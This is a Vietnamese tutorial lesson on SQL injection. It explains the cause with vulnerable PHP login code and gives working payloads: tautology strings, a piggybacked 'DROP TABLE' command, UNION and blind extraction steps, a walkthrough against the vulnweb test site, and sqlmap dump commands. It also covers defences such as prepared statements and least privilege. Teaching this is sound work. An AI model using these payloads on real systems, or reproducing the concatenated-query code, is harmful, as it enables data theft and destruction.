



# Bài 5: SQL Injection

---

## 1. SQL Injection là gì?

SQL Injection (SQLi) là kỹ thuật tấn công cho phép kẻ tấn công lợi dụng lỗ hổng trong cách ứng dụng web xây dựng câu lệnh SQL động từ dữ liệu người dùng nhập vào. Thay vì dữ liệu được xử lý như một chuỗi thông thường, nó bị hiểu nhầm là một phần của câu lệnh SQL, từ đó cho phép kẻ tấn công thay đổi logic truy vấn theo ý muốn.

!!! warning "Lưu ý quan trọng"
    SQL Injection **không phải lỗi của hệ quản trị cơ sở dữ liệu (DBMS) hay web server**, mà là lỗ hổng trong **tầng ứng dụng web** — cụ thể là ở chỗ không kiểm tra và xử lý dữ liệu đầu vào đúng cách.

---

## 2. Nguyên nhân

Nguyên nhân gốc rễ của SQL Injection là **dữ liệu đầu vào từ nguồn không tin cậy** (người dùng, URL, cookie, header HTTP...) được đưa trực tiếp vào để xây dựng câu SQL động mà **không qua kiểm tra hay làm sạch**.

Ví dụ đoạn code PHP dễ bị tấn công:

```php
$uName = $_REQUEST["username"];
$uPass = $_REQUEST["userpassword"];

$sql = "SELECT * FROM Users WHERE Name = '" . $uName . "' AND Pass = '" . $uPass . "'";
```

Nếu người dùng nhập bình thường:

```
Username: alice
Password: alice
```

Câu SQL tạo ra hoàn toàn hợp lệ:

```sql
SELECT * FROM Users WHERE Name = 'alice' AND Pass = 'alice'
```

Nhưng nếu nhập:

```
Username: admin" or 1=1 --
Password: anything
```

Câu SQL trở thành:

```sql
SELECT * FROM Users WHERE Name = "admin" or 1=1 -- " AND Pass = "anything"
```

Phần sau `--` bị coi là comment và bị bỏ qua. Điều kiện `1=1` luôn đúng, nên truy vấn trả về toàn bộ bảng Users.

---

## 3. Phân loại SQL Injection



---

## 4. Các dạng tấn công phổ biến

=== "Tautology"

    ### Tautology (Điều kiện luôn đúng)

    **Nguyên lý:** Chèn một biểu thức luôn có giá trị `TRUE` vào mệnh đề `WHERE`, khiến truy vấn luôn trả về kết quả bất kể điều kiện thực sự là gì.

    **Ví dụ:**

    ```php
    $sql = "SELECT Count(*) FROM Users WHERE Name='" . $uName . "' AND Pass='" . $uPass . "'";
    ```

    Nhập:

    ```
    Username: Blah' or 1=1 --
    Password: Springfield
    ```

    Câu SQL thực thi:

    ```sql
    SELECT Count(*) FROM Users WHERE Name='Blah' or 1=1 --' AND Password='Springfield'
    ```

    Phần sau `--` bị bỏ qua. `1=1` luôn đúng → đăng nhập thành công dù không có tài khoản.

    **Một số payload tautology phổ biến theo từng DBMS:**

    ```sql
    -- MySQL, MSSQL, Oracle, PostgreSQL, SQLite
    ' OR '1'='1' --
    ' OR '1'='1' /*

    -- MySQL (dùng dấu #)
    ' OR '1'='1' #

    -- Microsoft Access (dùng ký tự null)
    ' OR '1'='1' %00
    ' OR '1'='1' %16
    ```

    Tautology với chuỗi rỗng:

    ```sql
    -- Nhập vào cả username lẫn password
    " or ""=""
    ```

    Câu SQL trở thành:

    ```sql
    SELECT * FROM Users WHERE Name="" or ""="" AND Pass="" or ""=""
    ```

    `""=""` luôn đúng → toàn bộ bảng được trả về.

=== "PiggyBacked Query"

    ### PiggyBacked Query (Thêm câu truy vấn độc lập)

    **Nguyên lý:** Lợi dụng tính năng **Batched SQL Statements** — nhiều câu lệnh SQL phân tách bởi dấu chấm phẩy (`;`) có thể thực thi đồng thời trong một lần gọi. Kẻ tấn công chèn thêm câu lệnh SQL phụ, thường là các lệnh phá hoại như `DROP TABLE`, `INSERT`, `UPDATE`.

    !!! info "Batched SQL Statements"
        Đây là tính năng cho phép gửi nhiều câu SQL trong một request, được hỗ trợ bởi hầu hết DBMS (MSSQL, PostgreSQL, SQLite...). **MySQL thông qua PHP không hỗ trợ mặc định** với hàm `mysqli_query()`, nhưng `mysqli_multi_query()` thì có.

    **Ví dụ:**

    ```
    UserId: 105; DROP TABLE Suppliers;
    ```

    Câu SQL thực thi:

    ```sql
    SELECT * FROM Users WHERE UserId = 105; DROP TABLE Suppliers;
    ```

    Lệnh đầu tiên thực thi bình thường, lệnh thứ hai xóa toàn bộ bảng `Suppliers`.

=== "UNION-based SQLi"

    ### UNION SQL Injection

    **Nguyên lý:** Sử dụng toán tử `UNION` để nối kết quả của một truy vấn hợp lệ với kết quả của một truy vấn độc hại, từ đó trích xuất dữ liệu từ bảng khác trong cùng database.

    !!! warning "Điều kiện tiên quyết"
        Hai SELECT trong UNION phải có **cùng số cột** và **kiểu dữ liệu tương thích**.

    **Ví dụ:** Trang web truy vấn sản phẩm với 4 cột từ bảng `Products`:

    ```sql
    SELECT ProductId, ProductName, QuantityPerUnit, UnitPrice
    FROM Products WHERE ProductName LIKE 'blah'
    UNION SELECT 0, username, password, 0 FROM users
    ```

    Kết quả hiển thị trên trang web sẽ bao gồm cả username và password từ bảng `users`.

    **Các bước khai thác chi tiết:**

    **Bước 1 — Xác định lỗ hổng:**

    Thêm dấu `'` vào cuối tham số. Nếu có thông báo lỗi SQL → có lỗ hổng.

    ```
    ?id=20'
    ```

    Lỗi MySQL điển hình:
    ```
    1064 - You have an error in your SQL syntax; check the manual...
    ```

    Lỗi SQL Server điển hình:
    ```
    Msg 105, Level 15, State 1, Line 1
    Unclosed quotation mark after the character string ''.
    ```

    **Bước 2 — Xác định số cột:**

    Dùng `ORDER BY` và tăng dần cho đến khi lỗi xuất hiện.

    ```
    ?id=20 ORDER BY 1   -- OK
    ?id=20 ORDER BY 2   -- OK
    ?id=20 ORDER BY 11  -- LỖI → có 10 cột
    ```

    **Bước 3 — Xác định cột nào được hiển thị:**

    ```sql
    ?id=20 UNION SELECT 1,2,3,...,n
    ```

    Quan sát trên trình duyệt giá trị nào hiển thị ra → biết vị trí cột khả dụng.

    **Bước 4 — Lấy thông tin DBMS:**

    ```sql
    -- Lấy user đang kết nối DB
    ?id=20 UNION SELECT 1, user(), 3,...

    -- Lấy phiên bản DB
    ?id=20 UNION SELECT 1, version(), 3,...

    -- Lấy tên database hiện tại
    ?id=20 UNION SELECT 1, database(), 3,...
    ```

    **Bước 5 — Liệt kê các bảng:**

    ```sql
    ?id=20 UNION SELECT 1, 2, 3, table_name, 5, 6, 7, 8, 9, 10
    FROM information_schema.tables
    WHERE table_schema = database()
    ```

    **Bước 6 — Lấy tên các cột của bảng mục tiêu:**

    ```sql
    ?id=20 UNION SELECT 1, 2, 3, column_name, 5, 6, 7, 8, 9, 10
    FROM information_schema.columns
    WHERE table_name = 'users'
    ```

    **Bước 7 — Trích xuất dữ liệu:**

    ```sql
    ?id=20 UNION SELECT 1, 2, 3, username, password, 6, 7, 8, 9, 10
    FROM users
    ```

=== "Blind SQL Injection"

    ### Blind SQL Injection

    **Nguyên lý:** Ứng dụng web bị lỗi SQL Injection nhưng **không trả về thông báo lỗi hay kết quả truy vấn** cho người dùng. Kẻ tấn công phải suy diễn thông tin gián tiếp qua hành vi của ứng dụng.

    **Hai dạng chính:**

    **Boolean-based Blind SQLi:** Dựa vào sự khác biệt trong phản hồi HTTP giữa câu truy vấn đúng và sai.

    ```
    Nhập: 1' OR '1'='1   → Hiển thị tất cả user (TRUE)
    Nhập: 1' AND '1'='2  → Không hiển thị gì (FALSE)
    ```

    Từ đó đặt các câu hỏi dạng nhị phân để dò thông tin từng ký tự một:

    ```sql
    -- Kiểm tra ký tự đầu tiên của tên database có phải 'a' không?
    1' AND SUBSTRING(database(),1,1)='a' --
    ```

    **Time-based Blind SQLi:** Dựa vào thời gian phản hồi để suy luận.

    ```sql
    -- MSSQL: Nếu bảng creditcard tồn tại, server sẽ trễ 10 giây
    IF EXISTS (SELECT * FROM creditcard) WAITFOR DELAY '0:0:10'

    -- MySQL: Nếu điều kiện đúng, trễ 5 giây
    1' AND SLEEP(5) --

    -- PostgreSQL
    1'; SELECT pg_sleep(5) --
    ```

    !!! note "Tại sao Blind SQLi tốn thời gian?"
        Vì mỗi lần chỉ xác định được một bit thông tin (đúng/sai hoặc có/không trễ), để lấy toàn bộ tên một bảng cần hàng chục đến hàng trăm request.

---

## 5. Thực hành — Ví dụ khai thác với acunetix acuart

URL mục tiêu: `http://testphp.vulnweb.com/artists.php?artist=1`

| Bước | Payload | Kết quả | Nhận xét |
|---|---|---|---|
| B1. Xác định lỗ hổng | `?artist=1'` | `Warning: mysql_fetch_array() expects parameter 1 to be resource` | Có lỗ hổng SQLi, dùng MySQL |
| B2. Xác định số cột | `?artist=1 ORDER BY 4` | Lỗi tại n=4 | Bảng có 3 cột |
| B3. Xác định cột hiển thị | `?artist='' UNION SELECT 1,2,3` | Cột 2 và 3 hiển thị | Dùng được 2 vị trí |
| B4. Lấy phiên bản | `?artist='' UNION SELECT 1,version(),3` | `5.1.73-0ubuntu0.10.04.1` | MySQL 5.1.73 |
| B4. Lấy tên DB | `?artist='' UNION SELECT 1,database(),3` | `acuart` | Database tên acuart |
| B5. Liệt kê bảng | `?artist='' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='acuart'` | `artists, carts, categ, featured, guestbook, pictures, products, users` | 8 bảng |
| B6. Lấy cột bảng users | `?artist='' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name='users'` | `uname, pass, cc, address, email, name, phone, cart` | 8 cột |
| B6. Trích xuất dữ liệu | `?artist='' UNION SELECT 1,2,group_concat(uname,':',pass) FROM users` | `test:test` | 1 user test/test |

---

## 6. Tác hại của SQL Injection

!!! danger "Hậu quả nghiêm trọng"

- **Vượt qua xác thực (Authentication Bypass):** Đăng nhập vào hệ thống mà không cần biết mật khẩu.
- **Lấy thông tin nhạy cảm:** Trích xuất toàn bộ dữ liệu trong database (tài khoản, thẻ tín dụng, thông tin cá nhân).
- **Thay đổi dữ liệu:** Thực thi các lệnh `INSERT`, `UPDATE`, `DELETE` trái phép.
- **Quản trị database:** Thực hiện các thao tác cấp cao như `DROP TABLE`, tạo user mới có quyền admin.
- **Thực thi lệnh OS:** Trên MSSQL có thể dùng `xp_cmdshell` để chạy lệnh shell của hệ điều hành.
- **Mở rộng tấn công:** Phụ thuộc cấu hình mạng, có thể tạo backdoor vào toàn bộ hạ tầng nội bộ.

---

## 7. Biện pháp phòng chống

### 7.1 Giới hạn quyền kết nối CSDL

Nguyên tắc **least privilege** (đặc quyền tối thiểu): tài khoản database dùng cho ứng dụng web chỉ nên có đúng quyền cần thiết.

```
- Ứng dụng chỉ cần đọc dữ liệu → chỉ cấp SELECT
- Ứng dụng cần ghi → cấp SELECT, INSERT, UPDATE
- Tuyệt đối không dùng tài khoản root/sa cho ứng dụng web
- Mỗi ứng dụng dùng một tài khoản DB riêng biệt
```

### 7.2 Prepared Statements (Câu lệnh tham số hóa)

Đây là **biện pháp hiệu quả nhất**. Thay vì nhúng trực tiếp dữ liệu người dùng vào chuỗi SQL, ta tách biệt hoàn toàn cấu trúc câu lệnh và dữ liệu.

**Nguyên lý hoạt động:**



Vì DB đã biên dịch cấu trúc query trước khi nhận data, dữ liệu người dùng **không bao giờ được hiểu là lệnh SQL**.

=== "PHP (MySQLi)"

    ```php
    // Cách không an toàn (dễ bị SQLi)
    $sql = "INSERT INTO MyGuests (firstname, lastname, email)
            VALUES ('" . $firstname . "', '" . $lastname . "', '" . $email . "')";
    $conn->query($sql);

    // Cách an toàn với Prepared Statement
    $stmt = $conn->prepare(
        "INSERT INTO MyGuests (firstname, lastname, email) VALUES (?, ?, ?)"
    );
    $stmt->bind_param("sss", $firstname, $lastname, $email);

    $firstname = "John";
    $lastname  = "Doe";
    $email     = "john@example.com";
    $stmt->execute();

    // Có thể tái sử dụng với dữ liệu khác
    $firstname = "Mary";
    $lastname  = "Moe";
    $email     = "mary@example.com";
    $stmt->execute();

    $stmt->close();
    ```

    Trong `bind_param("sss", ...)`, chuỗi `"sss"` chỉ định kiểu dữ liệu:
    - `s` = string
    - `i` = integer
    - `d` = double
    - `b` = blob

=== "PHP (PDO)"

    ```php
    $pdo = new PDO("mysql:host=$host;dbname=$dbname", $user, $pass);

    $stmt = $pdo->prepare(
        "SELECT * FROM Users WHERE Name = :username AND Pass = :password"
    );
    $stmt->execute([
        ':username' => $username,
        ':password' => $password
    ]);
    $result = $stmt->fetchAll();
    ```

=== "ASP.NET"

    ```csharp
    // Cách không an toàn
    string txtUserId = Request["UserId"];
    string txtSQL = "SELECT * FROM Users WHERE UserId = " + txtUserId;
    db.Execute(txtSQL);

    // Cách an toàn
    string txtUserId = Request["UserId"];
    string sql = "SELECT * FROM Customers WHERE CustomerId = @0";
    SqlCommand command = new SqlCommand(sql);
    command.Parameters.AddWithValue("@0", txtUserId);
    command.ExecuteReader();
    ```

=== "Java (JDBC)"

    ```java
    // Cách không an toàn
    String sql = "SELECT * FROM users WHERE username = '" + username + "'";
    Statement stmt = conn.createStatement();
    ResultSet rs = stmt.executeQuery(sql);

    // Cách an toàn
    String sql = "SELECT * FROM users WHERE username = ?";
    PreparedStatement pstmt = conn.prepareStatement(sql);
    pstmt.setString(1, username);
    ResultSet rs = pstmt.executeQuery();
    ```

**Ưu điểm của Prepared Statements:**

- Giảm thời gian phân tích cú pháp: template được biên dịch một lần, dùng nhiều lần.
- Tiết kiệm băng thông: chỉ truyền giá trị tham số cho mỗi lần thực thi, không phải toàn bộ câu lệnh.
- **An toàn tuyệt đối với SQL Injection** vì dữ liệu và lệnh luôn được tách biệt.

### 7.3 Kiểm tra và làm sạch dữ liệu đầu vào

**Validation (Xác thực):** Kiểm tra dữ liệu có đúng định dạng mong đợi không.

**Sanitization (Làm sạch):** Loại bỏ hoặc escape các ký tự nguy hiểm.

=== "PHP Filters"

    ```php
    // Validate số nguyên
    $id = filter_var($_GET['id'], FILTER_VALIDATE_INT);
    if ($id === false) {
        die("Invalid ID");
    }

    // Sanitize chuỗi (loại bỏ thẻ HTML)
    $name = filter_var($_POST['name'], FILTER_SANITIZE_STRING);

    // Validate email
    $email = filter_var($_POST['email'], FILTER_VALIDATE_EMAIL);

    // Sanitize URL
    $url = filter_var($_POST['url'], FILTER_SANITIZE_URL);

    // Validate IP
    $ip = filter_var($_SERVER['REMOTE_ADDR'], FILTER_VALIDATE_IP);
    ```

    Các filter phổ biến:

    | Filter | Mục đích |
    |---|---|
    | `FILTER_SANITIZE_STRING` | Xóa thẻ HTML |
    | `FILTER_SANITIZE_EMAIL` | Xóa ký tự không hợp lệ trong email |
    | `FILTER_SANITIZE_URL` | Xóa ký tự không hợp lệ trong URL |
    | `FILTER_VALIDATE_INT` | Kiểm tra có phải số nguyên không |
    | `FILTER_VALIDATE_EMAIL` | Kiểm tra định dạng email hợp lệ |
    | `FILTER_VALIDATE_IP` | Kiểm tra địa chỉ IP hợp lệ |

=== "Escape Data"

    Dùng khi không thể dùng Prepared Statement (trường hợp hiếm gặp):

    ```php
    // Loại bỏ backslash
    $data = stripslashes($data);

    // Encode các ký tự đặc biệt HTML
    $data = htmlspecialchars($string, ENT_QUOTES);
    ```

    Bảng chuyển đổi của `htmlspecialchars`:

    | Ký tự gốc | Sau encode |
    |---|---|
    | `&` | `&amp;` |
    | `"` | `&quot;` |
    | `'` | `&#039;` hoặc `&apos;` |
    | `<` | `&lt;` |
    | `>` | `&gt;` |

### 7.4 Không lộ thông tin lỗi

Thông báo lỗi SQL chi tiết cung cấp thông tin quý giá cho kẻ tấn công (tên bảng, tên cột, phiên bản DB...).

```php
// Không an toàn
$result = $conn->query($sql);
if (!$result) {
    echo "Lỗi: " . $conn->error; // Lộ thông tin DB
}

// An toàn hơn
$result = $conn->query($sql);
if (!$result) {
    error_log("DB Error: " . $conn->error); // Ghi log nội bộ
    echo "Đã xảy ra lỗi. Vui lòng thử lại sau."; // Thông báo chung chung
}
```

### 7.5 Ghi log các câu truy vấn

Log lại toàn bộ câu query thực thi, đặc biệt các truy vấn thất bại, để phục vụ điều tra sự cố và phát hiện tấn công.

---

## 8. Quy trình nhận diện lỗ hổng SQL Injection



---

## 9. Mở rộng — Công cụ tự động hóa SQLi

!!! tip "Công cụ phổ biến trong thực tế"

**SQLMap** là công cụ mã nguồn mở mạnh nhất để phát hiện và khai thác SQL Injection tự động:

```bash
# Kiểm tra URL cơ bản
sqlmap -u "http://target.com/page.php?id=1"

# Khai thác và liệt kê databases
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Liệt kê bảng trong một database
sqlmap -u "http://target.com/page.php?id=1" -D dbname --tables

# Dump dữ liệu từ một bảng
sqlmap -u "http://target.com/page.php?id=1" -D dbname -T users --dump
```

!!! danger "Cảnh báo pháp lý"
    Chỉ sử dụng công cụ này trên hệ thống bạn **sở hữu hoặc được cấp phép kiểm tra**. Sử dụng trái phép là vi phạm pháp luật.

---

## 10. Bổ sung — WAF và Defense in Depth

Ngoài các biện pháp ở tầng code, trong thực tế còn triển khai thêm:

- **WAF (Web Application Firewall):** ModSecurity, AWS WAF, Cloudflare WAF — phát hiện và chặn các payload SQLi phổ biến ở tầng mạng.
- **ORM (Object-Relational Mapping):** Hibernate, SQLAlchemy, Eloquent — giao tiếp với DB qua các object thay vì câu SQL thô, mặc định dùng Prepared Statement.
- **SAST/DAST:** Công cụ quét mã tĩnh/động để phát hiện lỗ hổng trong quá trình phát triển trước khi deploy.
- **Principle of Least Privilege:** Không chỉ ở tầng DB user, còn áp dụng cho quyền truy cập file, mạng, OS.

---

## Tài liệu tham khảo

- [OWASP — SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [OWASP — Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)
- [OWASP Testing Guide — SQL Injection](https://owasp.org/www-project-web-security-testing-guide/)
- [PortSwigger Web Security Academy — SQL Injection](https://portswigger.net/web-security/sql-injection)
- [Acunetix — SQL Injection Guide](https://www.acunetix.com/websitesecurity/sql-injection/)
- [SQLMap Official Documentation](https://sqlmap.org/)
- [PHP — Prepared Statements (MySQLi)](https://www.php.net/manual/en/mysqli.quickstart.prepared-statements.php)
- [PHP — PDO Prepared Statements](https://www.php.net/manual/en/pdo.prepared-statements.php)
